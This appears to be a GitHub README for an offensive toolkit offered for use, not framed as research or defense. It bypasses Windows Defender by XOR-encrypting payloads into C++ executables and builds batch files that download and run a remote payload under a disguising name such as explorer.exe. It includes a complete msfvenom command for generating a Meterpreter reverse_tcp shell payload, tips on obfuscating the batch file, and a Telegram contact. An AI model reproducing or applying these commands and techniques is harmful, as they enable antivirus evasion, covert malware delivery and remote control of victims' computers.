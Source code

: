 # windows defender bypass with c++ and batchscript

required mingw32-g++ and python installed on your os.

help <windefbyp.py>:
```
options:
  -h, --help         show this help message and exit
  -p <payload.bin>   payload file path, ex: ./payload.bin
  -o <output.cpp>    output file (.cpp extension), ex: ./output.cpp
  -e <exe_file.exe>  exe output file (.exe extension), ex: exe_file.exe
```

usage <windefbyp.py>:
```
windefbyp.py [-h] -p <payload.bin> -o <output.cpp> -e <exe_file.exe>
```

help <need2bat.py>:
```
options:
  -h, --help         show this help message and exit
  -u [http://url]    payload file url, ex: http://192.168.1.5:8080/payload.exe
  -d <explorer.exe>  output file name for downloading, ex: explorer.exe (.exe extension)
  -o <output.bat>    output file name, ex: output.bat (.bat extension)
```

usage <need2bat.py>:
```
need2bat.py [-h] -u [http://url] -d <explorer.exe> -o <output.bat>
```

# hint:

- encrypt the output .bat file and convert it to exe (;
  
- use this command to make <payload.bin> file (must be installed metasploit):
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ur_ip lport=ur_port -f raw > ./payload.bin
```

# info:

windefbyp.py: windows defender bypass with xor encryption

need2bat.py: create a .bat file that download the payload file from via http and run it via cmd

source.cpp: source file for windefbyp.py

source.bat: source file for need2bat.py

dm on telegram: @TSuNAmi_ORg

# screenshot:
![](https://github.com/tsunami0x/windefbyp/blob/main/screenshot.gif)
